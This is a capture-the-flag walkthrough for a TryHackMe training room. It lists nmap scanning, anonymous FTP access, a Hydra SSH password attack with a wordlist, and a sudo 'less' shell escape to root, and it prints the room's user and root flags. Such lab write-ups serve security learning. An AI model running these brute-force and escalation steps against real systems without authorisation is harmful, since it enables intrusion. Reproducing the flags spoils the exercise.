








# TryHackMe - Brooklyn Nine-Nine Write-up

## Room Information

Brooklyn Nine-Nine is a beginner-friendly TryHackMe room that focuses on service enumeration, anonymous FTP access, password cracking, SSH authentication, Linux enumeration, and privilege escalation using misconfigured sudo permissions.

---

## Objective

The objective of this room was to enumerate the target machine, discover exposed services, identify valid credentials, gain initial access through SSH, perform Linux privilege escalation, and capture both the user and root flags.

---

## Tools Used

* Nmap
* FTP
* Hydra
* SSH
* Linux Commands
* sudo
* GTFOBins

---

# Task 1: Reconnaissance

## Nmap Scan

I began by performing a service version scan against the target.

```bash
nmap -sV -sS -T4 <TARGET_IP>
```

## Results

The scan identified the following open services:

* Port 21 → FTP
* Port 22 → SSH
* Port 80 → HTTP

These services became the primary focus during enumeration.



---

# Task 2: FTP Enumeration

Since FTP was available, I attempted to log in anonymously.

```bash
ftp <TARGET_IP>
```

Username:

```text
anonymous
```

Password:

```text
anonymous
```

Authentication was successful.

After listing the available files:

```bash
ls -la
```

I discovered:

```
note_to_jake.txt
```

I downloaded it using:

```bash
get note_to_jake.txt
```



---

# Task 3: Password Discovery


I opened the downloaded file.

```bash
cat note_to_jake.txt
```

The note stated that Jake's password was weak and should be changed.

This suggested that a dictionary attack against SSH would likely be successful.



---

# Task 4: SSH Password Attack

### Question

* What are Jake's SSH credentials?

Using the username **jake**, I launched Hydra with the RockYou wordlist.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

Hydra successfully recovered Jake's password.

## Results

* Username: **jake**
* Password: *(Recovered successfully)*

> The password has been omitted from this public write-up.



---

# Task 5: Initial Access

### Question

* Obtain access to the target machine.

Using the recovered credentials, I connected to the machine through SSH.

```bash
ssh jake@<TARGET_IP>
```

Authentication was successful.

After logging in, I verified my current directory and began enumerating the system.

```bash
pwd
ls -la
```



---

# Task 6: Capturing the User Flag

### Question

* User Flag

To locate the user flag, I searched the filesystem.

```bash
find / -name "user.txt" 2>/dev/null
```

The flag was located inside Holt's home directory.

```
/home/holt/user.txt
```

I navigated to the directory and displayed the contents.

```bash
cd /home/holt

cat user.txt
```

## Results

```
ee11cbb19052e40b07aac0ca060c23ee
```



---

# Task 7: Privilege Escalation

### Question

* Gain root privileges.

The first step was checking Jake's sudo permissions.

```bash
sudo -l
```

The output showed:

```
(ALL) NOPASSWD: /usr/bin/less
```

This immediately indicated a GTFOBins privilege escalation opportunity.

I executed:

```bash
sudo less /etc/hosts
```

While inside **less**, I spawned a root shell.

```bash
!/bin/sh
```

To verify successful privilege escalation:

```bash
whoami
```

Output:

```
root
```



---

# Task 8: Capturing the Root Flag

### Question

* Root Flag

I searched for the root flag.

```bash
find / -name "root.txt" 2>/dev/null
```

The file was located inside the root user's home directory.

```
/root/root.txt
```

I displayed the contents.

```bash
cd /root

cat root.txt
```

## Results

```
63a9f0ea7bb98050796b649e85481845
```



---

# Lessons Learned

* Conducting service enumeration using Nmap.
* Enumerating FTP services.
* Exploiting anonymous FTP access.
* Gathering intelligence from exposed files.
* Performing SSH password attacks using Hydra.
* Enumerating Linux systems after obtaining initial access.
* Checking sudo permissions using `sudo -l`.
* Exploiting misconfigured sudo privileges with GTFOBins.
* Capturing user and root flags.

---

# Conclusion

This room demonstrated the importance of proper enumeration during every phase of a penetration test. Initial reconnaissance identified several exposed services, while anonymous FTP access revealed valuable information that led to valid SSH credentials. After gaining initial access, Linux enumeration uncovered a misconfigured sudo permission that allowed privilege escalation through the **less** binary. By abusing this configuration, I successfully obtained root access and captured both the user and root flags. Overall, this room reinforced the importance of systematic enumeration, secure password policies, and regularly auditing privileged command permissions.
